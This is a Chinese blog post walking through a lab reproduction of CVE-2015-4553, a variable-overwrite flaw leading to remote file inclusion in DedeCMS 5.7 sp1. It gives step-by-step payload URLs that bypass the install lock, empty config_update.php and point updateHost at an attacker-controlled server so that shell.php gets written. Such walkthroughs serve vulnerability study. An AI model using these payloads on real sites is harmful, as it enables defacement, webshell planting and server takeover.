








# DedeCMS 5.7 sp1 远程文件包含漏洞(CVE-2015-4553) - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11332644.html`](https://www.cnblogs.com/yuzly/p/11332644.html)

DedeCMS 5.7 sp1 远程文件包含漏洞(CVE-2015-4553)

**一、漏洞描述**

该漏洞在/install/index.php(index.php.bak)文件中,漏洞起因是$$符号使用不当,导致变量覆盖,以至于最后引起远程文件包含漏洞。

**二、漏洞影响版本**

DeDeCMS < 5.7-sp1,包括 5.7 sp1 版本

**三、漏洞环境搭建**

1、下载 DeDeCMS V5.7 SP1,然后放到 phpstudy 环境下的 www 目录下,然后浏览器访 http://192.168.10.171/dedecms/uploads/install/index.php

　　

2、点击我已阅读并继续。然后是环境检测，保存默认即可

　　

3、接下来是参数配置，需要设置的只有数据库密码，把自己的密码填上去就行了

　　

4、然后就把环境搭好了

　　

**四、漏洞复现**

1、查看/install/index.php 源码,发现存在变量覆盖漏洞,该代码的意思是将 get,post 或者 cookie 方式传入的值通过 foreach 以键值对的方式输出,例如在 url 中输入?str=hello,则$_k 的值就是 str,$_v 的值就是 hello,所以${$_k}就是$str, 后面的 RunMagicQuotes 函数在另一个文件中定义的,大致就是对参数进行过滤然后返回参数内容。

　　

　　

2、尝试通过变量覆盖重装网站,浏览器访问

　　

3、变量覆盖后，直接进入安装界面,但是由于安装锁的存在不能继续重新安装，除非删除安装锁 http://192.168.10.171/dedecms/uploads/install/index.php?insLockfile=1

　　

4、只有变量覆盖暂时还不够,继续浏览代码,发现最后几行代码

　　

4.1、这段代码首先包含了/data/admin/config_update.php 文件, 这里定义了变量 updateHost

文件内容如下: 

　　

4.2、继续看 373-387 行代码,$updateHost 与 dedecms/demodata.{$a_lang}.txt 拼接为字符串,并利用 files_get_contents 函数读取 demodata.{$s_lang}.txt 文件内容,最后将该文件内容写入到$install_demo_name 参数中。

4.3、因此我们可以结合上面的变量覆盖漏洞来进行远程文件包含,直接写 webshell。

5、由于$updateHost 变量是引入进来的,所以不能直接进行覆盖,需要先将 config_update.php 文件清空再包含。

5.1、这时候可以利用 fopen 函数来实现,可以看到 fopen 中的参数是 w,会直接重写文件,而 file_get_contents 读取文件失败会返回 NULL

　　

5.2、然后利用 fwrite 函数,这里可以利用变量覆盖,将$s_lang 随意取名成不存在的文件名, $install_demo_name 指向”../data/admin/config_update.php”,为了程序能够执行到这里,需要将$step 设置为 11,这样就达到了清空 config_update.php 的目的。

构造 payload: http://192.168.10.171/dedecms/uploads/install/index.php?step=11&s_lang=test&install_demo_name=…/data/admin/config_update.php

浏览器访问,提示如下

　　

5.3、查看代码,发现这里有一个判断文件是否存在(也就是判断网站是否安装)的条件,通过变量覆盖漏洞将$insLockfile 构造成任意不存在的文件就可以绕过这个条件的限制

　　

5.4、再次构造 payload:

http://192.168.10.171/dedecms/uploads/install/index.php?step=11&s_lang=test&insLockfile=test&install_demo_name=../data/admin/config_update.php

　　

5.5、此时可以看到 config_update.php 会发现已经变为 0kb,空文件

　　

5.6、config_update.php 文件内容被清空之后,这时我们就可以控制 updateHost 参数了,这时我们就可以开始远程文件包含上传我们想要上传的文件了

5.7、在 kali 上创建一个 dedecms 文件夹,然后创建一个 demodata.gb2312.txt,写入<?php phpinfo();?> ,然后开启 web 服务

　　

5.8、再次构造 payload, install_demo_name 改为要上传的路径,updateHost 改为远程目标机的 IP

Payload 如下:

http://192.168.10.171/dedecms/uploads/install/index.php?step=11&insLockfile=test&install_demo_name=../shell.php&updateHost=http://192.168.10.140/

浏览器访问,出现界面说明写入成功

　　

5.9、查看是否上传成功,确定上传成功

　　

6、浏览器访问上传的 shell.php

　　

-------------------------------------------------------------------------------------------

参考: https://www.cnblogs.com/s1ye/p/9108780.html